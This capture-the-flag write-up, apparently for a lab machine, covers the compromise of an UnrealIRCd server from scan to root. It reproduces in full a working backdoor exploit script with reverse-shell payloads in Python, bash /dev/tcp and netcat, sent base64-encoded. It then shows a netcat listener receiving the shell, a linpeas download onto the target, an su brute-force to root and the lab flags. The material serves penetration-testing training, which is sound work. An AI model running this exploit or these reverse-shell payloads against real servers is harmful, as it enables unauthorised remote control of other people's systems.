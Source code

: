```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.202.120
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 09:13 EDT
Warning: 192.168.202.120 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.202.120
Host is up (0.067s latency).
Not shown: 63888 closed tcp ports (conn-refused), 1644 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd (Admin email example@example.com)
Service Info: Host: irc.foonet.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.87 seconds
```

There are three open ports:

| Port | Service |
| ---- | ------- |
| 6667 | irc     |
| 6697 | irc     |
| 8067 | irc     |

&nbsp;

## Exploitation
### Obtaining reverse shell
#### Using third party exploit

We can obtain a reverse shell on the target using a [this](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py) exploit.

![1](https://github.com/user-attachments/assets/6a618f70-753f-4961-9901-0ee1eaf6ab82)

```
$ wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py
--2024-08-10 09:52:21--  https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py
Resolving github.com (github.com)... 20.207.73.82, 64:ff9b::14cf:4952
Connecting to github.com (github.com)|20.207.73.82|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘exploit.py’

exploit.py                                                     [ <=>                                                                                                                                     ] 341.74K  --.-KB/s    in 0.01s   

2024-08-10 09:52:22 (23.4 MB/s) - ‘exploit.py’ saved [349940]
```

Once downloaded, we have to modify the exploit slightly, setting our IP address.

```python title="exploit.py"
#!/usr/bin/python3
import argparse
import socket
import base64

# Sets the target ip and port from argparse
parser = argparse.ArgumentParser()
parser.add_argument('ip', help='target ip')
parser.add_argument('port', help='target port', type=int)
parser.add_argument('-payload', help='set payload type', required=True, choices=['python', 'netcat', 'bash'])
args = parser.parse_args()

# Sets the local ip and port (address and port to listen on)
local_ip = '192.168.45.234'  # CHANGE THIS
local_port = '9999'  # CHANGE THIS 

# The different types of payloads that are supported
python_payload = f'python -c "import os;import pty;import socket;tLnCwQLCel=\'{local_ip}\';EvKOcV={local_port};QRRCCltJB=socket.socket(socket.AF_INET,socket.SOCK_STREAM);QRRCCltJB.connect((tLnCwQLCel,EvKOcV));os.dup2(QRRCCltJB.fileno(),0);os.dup2(QRRCCltJB.fileno(),1);os.dup2(QRRCCltJB.fileno(),2);os.putenv(\'HISTFILE\',\'/dev/null\');pty.spawn(\'/bin/bash\');QRRCCltJB.close();" '
bash_payload = f'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1'
netcat_payload = f'nc -e /bin/bash {local_ip} {local_port}'

# our socket to interact with and send payload
try:
    s = socket.create_connection((args.ip, args.port))
except socket.error as error:
    print('connection to target failed...')
    print(error)
    
# craft out payload and then it gets base64 encoded
def gen_payload(payload_type):
    base = base64.b64encode(payload_type.encode())
    return f'echo {base.decode()} |base64 -d|/bin/bash'

# all the different payload options to be sent
if args.payload == 'python':
    try:
        s.sendall((f'AB; {gen_payload(python_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'netcat':
    try:
        s.sendall((f'AB; {gen_payload(netcat_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'bash':
    try:
        s.sendall((f'AB; {gen_payload(bash_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')
    
#check display any response from the server
data = s.recv(1024)
s.close()
if data != '':
    print('Exploit sent successfully!')
```

Let's set up a `nc` listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```

Let's send the exploit payload.

```
$ python3 exploit.py -payload bash 192.168.202.120 6697
Exploit sent successfully!
```

We can now check back on our `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.202.120] 42784
bash: cannot set terminal process group (433): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
server@noontide:~/irc/Unreal3.2$ cd /home/server
cd /home/server
```

```
server@noontide:~$ cat local.txt
cat local.txt
573899f75943f510d8807e6af75a5a71
```

### Privilege Escalation

#### Enumerating Privilege Escalation vectors using Linpeas

In order to find a privilege escalation vector we have to use the [Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240804-31b931f7) utility.

```
$ python3 -m http.server                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
server@noontide:~$ wget http://192.168.45.234:8000/linpeas.sh
wget http://192.168.45.234:8000/linpeas.sh
--2024-08-10 10:11:55--  http://192.168.45.234:8000/linpeas.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860335 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

     0K .......... .......... .......... .......... ..........  5%  285K 3s
    50K .......... .......... .......... .......... .......... 11%  722K 2s
   100K .......... .......... .......... .......... .......... 17%  196K 2s
   150K .......... .......... .......... .......... .......... 23% 2.08M 2s
   200K .......... .......... .......... .......... .......... 29%  824K 1s
   250K .......... .......... .......... .......... .......... 35%  888K 1s
   300K .......... .......... .......... .......... .......... 41%  980K 1s
   350K .......... .......... .......... .......... .......... 47% 1.48M 1s
   400K .......... .......... .......... .......... .......... 53%  892K 1s
   450K .......... .......... .......... .......... .......... 59%  862K 1s
   500K .......... .......... .......... .......... .......... 65% 2.07M 0s
   550K .......... .......... .......... .......... .......... 71%  874K 0s
   600K .......... .......... .......... .......... .......... 77%  836K 0s
   650K .......... .......... .......... .......... .......... 83% 1.10M 0s
   700K .......... .......... .......... .......... .......... 89% 1.35M 0s
   750K .......... .......... .......... .......... .......... 95%  879K 0s
   800K .......... .......... .......... ..........           100% 2.11M=1.1s

2024-08-10 10:11:57 (740 KB/s) - ‘linpeas.sh’ saved [860335/860335]
```

Let's make it executable.

```
server@noontide:~$ chmod +x linpeas.sh                 
chmod +x linpeas.sh
```

We can use the `-a` option for brute-forcing.

```
server@noontide:~$ ./linpeas.sh -a
./linpeas.sh -a

<SNIP>

╔══════════╣ Testing 'su' as other users with shell using as passwords: null pwd, the username and top2000pwds
                                                                           
  Bruteforcing user root...
  You can login as root using password: root

<SNIP>
```

#### Logging in as the `root` user

```
server@noontide:~$ su root
su root
Password: root
```

```
whoami
root
```

### proof.txt

```
cat /root/proof.txt
8b06a7b03fb1b275742e0e3f1aec0569
```
